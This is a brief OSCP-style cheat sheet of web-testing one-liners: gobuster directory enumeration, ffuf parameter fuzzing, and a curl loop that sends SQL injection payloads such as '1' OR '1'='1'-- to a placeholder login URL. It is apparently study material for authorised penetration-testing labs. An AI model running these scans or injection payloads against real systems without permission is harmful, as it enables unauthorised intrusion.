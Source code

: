 ### One-Liner Web Enumeration
```bash
# Rapid web discovery
gobuster dir -u http://<target> -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt -x php,html,txt -t 50 -q --no-error
```

### One-Liner Parameter Testing
```bash
# Quick parameter discovery  
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u "http://<target>/?FUZZ=test" -fs 1234 -s
```

### One-Liner SQL Injection Test
```bash
# Quick SQLi test
for payload in "'" "\"" "\\" "1' OR '1'='1'--"; do echo "Testing: $payload"; curl -s "http://<target>/login?id=$payload" | wc -c; done
```

Remember: Web application testing in OSCP is about methodical enumeration and understanding common patterns. Don't just run tools - understand what they're doing and adapt your approach based on the technology stack you discover!